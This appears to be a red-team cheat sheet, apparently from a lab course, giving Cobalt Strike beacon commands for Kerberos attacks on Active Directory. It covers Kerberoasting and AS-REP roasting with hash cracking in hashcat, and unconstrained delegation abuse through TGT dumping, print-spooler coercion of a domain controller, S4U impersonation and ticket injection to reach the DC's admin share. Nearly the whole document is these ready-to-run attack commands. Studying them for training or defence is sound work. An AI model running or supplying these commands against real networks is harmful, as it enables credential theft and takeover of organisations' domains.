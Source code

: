 # Kerberos

## 1) Kerberoasting

    beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc /nowrap

    ps> hashcat -a 0 -m 13100 hashes wordlist

## 2) ASREPRoast

    beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:squid_svc /nowrap

    ps> hashcat -a 0 -m 18200 svc_oracle wordlist

## 3) Unconstrained Delegation (Caches TGT of any user accessing its service)

1. Identify the computer objects having Unconstrained Delegation enabled

        beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname

2. Dumping the cached TGT ticket (requires system access on affected system)

        beacon> getuid
        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap

3. Execute PrintSpool attack to force DC to authenticate with WEB 

        beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io

4. Use Machine TGT (DC) fetched to gain RCE on itself using S4U abuse (/self flag)

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap

5. Inject the ticket and access the service

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=

        beacon> steal_token 2664
        beacon> ls \\dc-2.dev.cyberbotic.io\c$
